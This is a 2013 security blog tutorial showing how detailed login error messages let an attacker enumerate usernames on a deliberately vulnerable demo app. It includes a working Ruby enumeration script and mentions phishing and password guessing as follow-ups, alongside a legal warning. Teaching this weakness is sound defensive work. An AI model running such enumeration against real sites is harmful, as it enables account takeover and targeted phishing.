 ```yaml
---
layout: post
title: "Tales from a login page: exploit the form"
date: 2013-09-03 07:50
comments: true
published: true
featured: false
tags: h4f pentest-with-ruby owasp tales-from-login owasp-top-10 broken-authentication basm login session authentication railsberry
thumb: folla.png
level:
hn:
rd:
---
```


[Last time](http://armoredcode.com/blog/tales-from-a-login-page-intro/) we
introduced the login form as seen on the attacker perspective.

The idea is to have laconic messages on error, not to give too much information
to an attacker and sanitize your input wisely to avoid authentication bypass
via SQL Injection.

Today we see how to exploit the login form to collect a list of existing
usernames on the site. Eventually we will try for very basic password as an
optional step.

<!-- more -->

## A vulnerable target

Let's see we've got a [web site](https://github.com/thesp0nge/railsberry2013)
with an information disclosure problem. Our target gives too much detailed
error message when something went wrong during authentication.

With a site like this, we can enumerate existing usernames we can use in a fine
target attack (phishing mail campaign, weak password guessing and so on).

If we want also to exploit passwords, what we need is an existing user in order
to see the message or the page an authenticated user is redirect to. We need to
learn the success case. General purpose websites are happy to register new
users, so create one and you will use it later on.

We need also a dictionary of words to use to bruteforce our target, but now
it's time to remind you that...

> Attacking a web site without a formal engagement is a crime in almost all
> countries around the world, yes... even in Italy. You have also to remember
> that most of organizations have some firewall (to control network access or to
> protect web access or even both of twos) so eventually you're attacking
> attempts will be traced.
>
> Using tor or other proxy anonymizer services won't help you that much since
> some of the networks you would use are blacklisted by firewall vendors or
> network carriers.

## Exploiting it

The exploit script core is vert simple. I used a dictionary I found on the Net
specially designed for username guessing. I won't disclose it now, Google is
your friend.

The first thing we do is to check the response posting an existing username
(the one we just created) with a wrong password and an "hopefully" non existing
username to see how the website answers in both cases.

``` ruby check if we can enumerate users
wrong_pwd   = post(url, username, "caosintheground").body.gsub(username, 'canary_username')
wrong_creds = post(url, "caostherapy", "caosintheground").body.gsub("caostherapy", "canary_username")

die("response is the same if the username is good but password wrong or creds are wrong. Can't bruteforce") if wrong_pwd == wrong_creds
```

Then we create an array with usernames if posting a login taken from a dictionary with a very random password we get as answer a wrong password message.

``` ruby creating the array
r= post(url, line, "loremispumhopenobodyintheworldwillreallyusethisaspasswordbutifyoudidityourenotthatsmartasyouthing.4nt4n1")
found << line if r.body == wrong_pwd.gsub("canary_username", line) and found.find_index(line).nil?
```


The whole script (without some trivial code you may want to write on your own) is the following.

``` ruby enumarating valid usernames on a vulnerable login form
@post = true
@dictionary = "./popular_users_small.txt"
username = val

log("existing user #{username} used as canary")

wrong_pwd   = post(url, username, "caosintheground").body.gsub(username, 'canary_username')
wrong_creds = post(url, "caostherapy", "caosintheground").body.gsub("caostherapy", "canary_username")

die("response is the same if the username is good but password wrong or creds are wrong. Can't bruteforce") if wrong_pwd == wrong_creds

die "can't open #{@dictionary}" unless File.exists?(@dictionary)
lines = File.readlines(@dictionary)
log("#{lines.size} words from dictionary loaded")

found = []

lines.each do |line|
  @i += 1

  begin
    line = line.chomp.gsub(' ', '-').gsub("à", "a").gsub("è", "e").gsub("é", "e").gsub("ò", "o").gsub("ù", "u")
  rescue Exception => e
    err(e.message)
    line = "# discarded"
  end

  if ! line.start_with?("#")
    sleep(@sleep_time)
    log("awake... probing with: #{line}")


    r= post(url, line, "loremispumhopenobodyintheworldwillreallyusethisaspasswordbutifyoudidityourenotthatsmartasyouthing.4nt4n1")
    found << line if r.body == wrong_pwd.gsub("canary_username", line) and found.find_index(line).nil?
  end

end
log("#{found.size} user(s) found")
if found.size != 0
  found.each do |user|
    ok(user)
  end
end
helo "shutting down"
remove_pid_file
Kernel.exit(0)
```

## Off by one

As you may see, attacking a web site can be trivial when it gaves too much details.
Remember also that you don't want to attack a web site you are not authorized to.
And next time, we will talk about cookies...

_Photo courtesy by [Fon-tina](http://www.flickr.com/photos/fontina/)_
